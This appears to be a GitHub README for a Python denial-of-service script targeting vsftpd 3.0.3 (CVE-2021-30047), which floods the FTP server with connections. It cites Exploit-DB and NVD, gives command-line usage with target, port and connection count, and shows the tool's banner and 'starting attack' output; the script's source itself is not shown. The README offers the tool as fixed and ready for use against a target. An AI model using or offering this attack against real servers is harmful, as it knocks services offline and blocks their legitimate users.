 # vsftpd-3.0.3-DoS

## Overview

This is a Python script to exploit a remote Denial of Service (DoS) vulnerability in **vsftpd 3.0.3** by overwhelming the FTP server with connections. The script repeatedly makes connections to the server, potentially blocking legitimate users.

The script has been fixed to address syntax errors and improve functionality, making it ready for practical testing.

## Features

- Tests if the target server's port is open.
- Executes a DoS attack by making multiple simultaneous connections.
- Customizable connection limits and target ports.

### References
- [Exploit-DB](https://www.exploit-db.com/exploits/49719)
- [CVE-2021-30047 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-30047)

## Requirements

- **Python 3.x**
- Network access to the target

## Usage

Run the script using Python 3, specifying the target IP, port, and optional maximum number of connections.

### Basic Usage
```bash
python3 vsftpd303-dos.py <TARGET> <PORT(DEFAULT:21)> <MAX_CONNS(DEFAULT:50)>
```
### Example Usage
```bash
python3 vsftpd303-dos.py x.x.x.x 21 44
```
```
._________________.
|     VS-FTPD     |
|      D o S      |
|_________________|
|                 |
|By XYN/DUMP/NSKB3|
|_________________|
|                 |
|___mod version___|
|---kuppamjohari--|
|_________________|
|_|_|_|_____|_|_|_|
|_|_|_|_|_|_|_|_|_|

Exploit Author: xynmaps
Modified By: kuppamjohari
Press Ctrl+C to cancel the program at any time.

[!] Testing if x.x.x.x:21 is open
[+] Port 21 open, starting attack...
[+] Attack started on x.x.x.x:21!

```
